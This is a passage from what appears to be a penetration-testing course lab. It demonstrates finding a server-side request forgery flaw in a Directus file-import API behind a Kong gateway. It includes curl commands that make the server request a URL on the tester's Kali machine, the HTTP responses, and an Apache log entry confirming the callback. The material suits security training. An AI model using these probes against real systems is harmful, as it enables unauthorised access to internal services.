 {"errors":[{"message":"\"url\" is required","extensions":{"code":"INVALID_PAYLOAD"}}]}
Listing 16 - Error message response from /files/import

As we mentioned, we always want to check url parameters in an API or web form for an SSRF vulnerability. First, let's determine if we can make it connect back to our Kali machine. We'll need to make sure our Apache HTTP server is running.

Since the server returned the error as a JSON message, let's make our POST request use JSON as well. We will use a distinct file name on the url parameter so it is easy to find in our Apache log file. At this point, we don't care if the file actually exists on our Kali host, we just want to determine if the API server will request the file from our web server.

Let's send our payload using curl. We will set -H "Content-Type: application/json" to include a Content-Type header with the "application/json" value on our request and the -d flag with our JSON payload.

kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-qz7bVW5hKPsQy2fT0mRPx8X4tuc"
Date: Thu, 25 Feb 2021 16:18:24 GMT
X-Kong-Upstream-Latency: 118
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Listing 17 - Attempting an SSRF exploit

We receive an HTTP 500 response with a message of "Request failed with status code 404". Let's check our Apache log for any requests.

kali@kali:~$ sudo tail /var/log/apache2/access.log
192.168.120.135 - - [25/Feb/2021:11:18:24 -0500] "GET /ssrftest HTTP/1.1" 404 455 "-" "axios/0.21.1"
Listing 18 - Verifying the SSRF worked in our Apache log file

Excellent. This backend service is vulnerable to SSRF. The user agent on the request is Axios,1 an HTTP client for Node.js. Let's add a file named ssrftest to our Apache web root so that the server can access it and then resend the request with curl.

kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Thu, 25 Feb 2021 16:22:52 GMT
X-Kong-Upstream-Latency: 117
X-Kong-Proxy-Latency: 0
Via: kong/2.2.1
